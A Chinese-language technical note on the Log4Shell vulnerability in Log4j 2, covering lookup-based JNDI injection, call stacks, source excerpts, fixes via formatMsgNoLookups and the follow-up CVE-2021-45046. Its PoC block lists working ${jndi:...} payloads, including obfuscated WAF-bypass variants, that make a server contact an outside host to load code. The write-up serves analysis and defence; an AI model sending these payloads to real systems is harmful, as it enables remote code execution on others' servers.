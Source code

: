 ```yaml
---
title: "Log4shell"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:38:32+08:00
draft: false
---
```


Log4j 2 提供了属性替换特性，在配置文件中可以使用 `${name}` 这样的语法，从文件任意
位置引用属性值。而且为了从不同上下文环境中引用，还支持 `${prefix:name}`, 用 prefix
来指定上下文，然后通过 lookups 特性从远程获取需要的值进行属性替换

官方文档：

1.  <https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution>
2.  <https://logging.apache.org/log4j/2.x/manual/lookups.html>

由于 prefix 支持 [JNDI]({{< relref "jndi.md" >}}), 而且地址(name)是完全可控的，而且 log4j 2 在记录日志时对
${} 语法进行了解析，综上原因导致了极其容易利用的 JNDI 注入

poc:

```nil
# basic
${jndi:ldap://evil.dnslog.cn}

# bypass rc1
${jndi:ldap://127.0.0.1:1389/ badClassName}

# bypass waf
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```


## 相关执行流程 {#相关执行流程}

关键流程的调用栈：

```nil
lookup:54, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
...
```

MessagePatternConverter#format 关键代码：

```java
if (this.config != null && !this.noLookups) {
    for(int i = offset; i < workingBuilder.length() - 1; ++i) {
        if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
            String value = workingBuilder.substring(offset, workingBuilder.length());
            workingBuilder.setLength(offset);
            workingBuilder.append(this.config.getStrSubstitutor().replace(event, value));
        }
    }
}
```

判断条件中的 this.noLookups 由后面提到的 formatMsgNoLookups 属性来设置

遇到 `${` 开头的字符串会进入 StrSubstitutor 对模板语法进行解析，解析逻辑和 waf
bypass 的构造有关联，然后在 Interpolator#lookup 处理并发送 JNDI 请求


## 修复 {#修复}

Log4j 提供了 formatMsgNoLookups 属性来禁用 lookups 特性，可以通过下述方式设置：

1.  jvm 参数 -Dlog4j2.formatMsgNoLookups=true
2.  配置文件设置 log4j2.formatMsgNoLookups=True
3.  环境变量 FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为 true

高版本 JDK 提供了 com.sun.jndi.ldap.object.trustURLCodebase 属性且默认为 false,
JVM 不会信任 [LDAP]({{< relref "ldap.md" >}}) 对象反序列化过程中从远程 [codebase]({{< relref "java_codebase.md" >}}) 加载的类。但是依然可以利用本
地类的反序列化 gadget 进行利用


## CVE-2021-45046 {#cve-2021-45046}

Log4j 2 有一个概念是线程上下文(Thread Context), 主要是用来区分和追踪不同客户端的
相关日志，并通过 Thread Context Map 和 Thread Context Stack 两个机制来存储相关标
记，而 PatternLayout 提供了相关的机制来获取线程上下文中存放的键值

官方文档：<https://logging.apache.org/log4j/2.x/manual/thread-context.html>

在 PatternLayout 获取 ThreadContext 的值时，如果包含 `${}` 表示的变量就会进行解析，
而且解析过程不受 formatMsgNoLookups 属性的限制，造成 JNDI 注入。但前提是攻击者有
办法控制 ThreadContext 中的数据

关键流程：

```nil
lookup:54, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup) [2]
substitute:1042, StrSubstitutor (org.apache.logging.log4j.core.lookup) [1]
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:60, LiteralPatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
...
```

LiteralPatternConverter 的关键代码如下：

```java
public LiteralPatternConverter(final Configuration config, final String literal, final boolean convertBackslashes) {
    super("Literal", "literal");
    this.literal = convertBackslashes ? OptionConverter.convertSpecialChars(literal) : literal;
    this.config = config;
    this.substitute = config != null && literal.contains("${");
}

public void format(final LogEvent event, final StringBuilder toAppendTo) {
    toAppendTo.append(this.substitute ? this.config.getStrSubstitutor().replace(event, this.literal) : this.literal);
}
```

如果 literal 属性包含 `${`, 就进入 StrSubstitutor#replace 方法导致注入

相关项目：<https://github.com/Cybereason/Logout4Shell>
